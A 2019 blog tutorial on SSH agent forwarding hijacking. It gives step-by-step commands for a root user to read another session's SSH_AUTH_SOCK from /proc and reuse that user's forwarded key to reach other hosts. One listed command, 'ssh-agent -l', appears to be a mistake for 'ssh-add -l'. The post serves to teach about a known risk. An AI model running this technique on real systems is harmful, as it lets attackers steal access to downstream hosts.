 ```yaml
---
layout: post
title:  "SSH Agent Hijacking"
date:   2019-09-06 23:06:00 -0400
categories: linux ssh security hijacking
logo: openssh.jpg
---
```

Use of SSH Agent Forwarding is a common way to enable re-using SSH keys from a source and jumping through multiple hosts
over SSH. However, this method comes with a potential risk of hijacking where compromise could mean a malicious actor
using the SSH keys to access downstream hosts without the user knowing. This quick tutorial demonstrates how SSH
hijacking can occur.

### Setup

This example assumes you already have SSH keys created and the public key contents residing within the `authorized_keys` file
of the remote host (thus allowing key-based access to the remote host). Let's assume the remote host IP address is
`10.11.12.13` and your user ID is `joe`. Let's also assume the remote host is running a CentOS 7.2 OS.

### SSH Access with Forwarding

First, open a terminal session and SSH to the remote host using your SSH key and agent forwarding. If this does not work, it's
likely that `AllowAgentForwarding` is set to `no` in the `/etc/ssh/sshd_config` file of the remote host. If this is the case,
change it to `yes` and restart the `sshd` service for this test.

{% highlight bash %}
$ ssh -A joe@10.11.12.13
{% endhighlight %}

Once you're on the remote instance, you can test that the agent forwarding worked by running the following command, which
should show the fingerprint of the represented SSH key file:

{% highlight bash %}
$ ssh-add -l
{% endhighlight %}

If this shows the fingerprint of the SSH key used to access the instance, you have successfully SSH'd to the target instance
using SSH forwarding. Keep this terminal window open.

### SSH Hijacking

Now open a second window. SSH to the same target instance (`10.11.12.13`) without agent forwarding, and switch to the root
user as though you were another user on the same instance with root privileges:

{% highlight bash %}
$ ssh joe@10.11.12.13
$ sudo su -
{% endhighlight %}

We'll now perform the hijack. Granted, performing hijacking in this scenario does require the root account based on the
SSH agent socket permissions, but any compromise or user's ability to access the socket can result in the potential to
hijack. We'll install a quick utility that helps visualize the process tree for the SSH session as well.

{% highlight bash %}
# install pstree utility
$ yum install psmisc
$ pstree -p joe
# this utility will show the process trees of all processes
# associated with the user joe - find the process with the
# following signature:
#   sshd(<PID>) -- bash(<PID>)
# the <PID> of the bash process is the PID you need for
# the following steps

# capture the SSH_AUTH_SOCK variable out of the environment
# for the ssh agent process:
$ cat /proc/<PID>/environ | tr '\0' '\n' | grep SSH_AUTH_SOCK

# you can test that the capture is working and an identity is
# present by running the following command, which should show
# the same fingerprint for the identity
$ SSH_AUTH_SOCK=<PREVIOUS_CAPTURE> ssh-agent -l

# now use the ssh identity to access a remote instance where
# you know the identity is in the authorized_keys file - to test
# easily, you can simply use 'localhost' since this host has
# the identity in the authorized_keys file
$ SSH_AUTH_SOCK=<PREVIOUS_CAPTURE> ssh joe@localhost
{% endhighlight %}

If all goes well, you will be SSH'd into the local VM without a password using the SSH key of the other session.

### Credit

The above tutorial was pieced together with some information from the following sites/resources:

* [SSH Agent Hijacking](https://www.clockwork.com/news/2012/09/28/602/ssh_agent_hijacking/)
